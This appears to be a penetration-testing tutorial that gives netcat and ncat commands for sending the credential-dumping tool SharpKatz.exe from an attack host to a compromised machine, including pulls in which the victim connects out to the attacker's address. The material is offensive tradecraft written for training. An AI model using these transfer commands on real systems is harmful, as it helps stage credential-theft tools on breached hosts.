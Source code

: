 ## Netcat
## File Transfer with Netcat and Ncat
#### NetCat - Compromised Machine - Listening on Port 8000

```shell-session
$ nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.
#### Ncat - Compromised Machine - Listening on Port 8000
```shell-session
$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```
From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine
```shell-session
$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

#### Ncat - Attack Host - Sending File to Compromised machine
```shell-session
$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

#### Attack Host - Sending File as Input to Netcat
```shell-session
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Compromised Machine Connect to Netcat to Receive the File
```shell-session
$ nc 192.168.49.128 443 > SharpKatz.exe
```

#### Attack Host - Sending File as Input to Ncat
```shell-session
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connect to Ncat to Receive the File
```shell-session
 ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```